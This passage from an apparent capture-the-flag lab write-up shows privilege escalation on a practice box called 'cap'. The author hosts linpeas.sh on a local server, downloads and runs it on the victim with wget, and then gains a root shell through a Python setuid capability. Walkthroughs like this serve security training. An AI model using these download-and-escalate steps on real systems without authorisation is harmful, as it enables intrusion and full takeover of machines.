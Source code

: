 ```console
kali@kali:~/transfer$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now on the box (victim machine), let's change our working directory to `/tmp` and then get the script from our local server.

```console
nathan@cap:~$ cd /tmp
nathan@cap:/tmp$ wget http://10.10.14.114:8000/linpeas.sh
--2021-09-14 00:18:39--  http://10.10.14.114:8000/linpeas.sh
Connecting to 10.10.14.114:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 473164 (462K) [text/x-sh]
Saving to: linpeas.sh

linpeas.sh 100%[==============================================>] 462.07K   871KB/s    in 0.5s    

2021-09-14 00:18:40 (871 KB/s) - linpeas.sh saved [473164/473164]
nathan@cap:/tmp$ chmod +x linpeas.sh
```

Let's execute this script to scan for privilege escalation vulnerabilities.

```console
nathan@cap:/tmp$ chmod +x linpeas.sh
nathan@cap:/tmp$ ./linpeas.sh

...
```

The script returns a lot of data, but what we are looking for is text that are highlighed in yellow and with red text.

![linpeas.sh](./images/linpeas.png)
**Figure 7:** linpeas.sh

This basically says that we can set the UID using `python`, if so, we can set the UID to root (root UID is 0) and spawn a shell.

```console
nathan@cap:/tmp$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:/tmp# 
```

Hooray!! We got root.
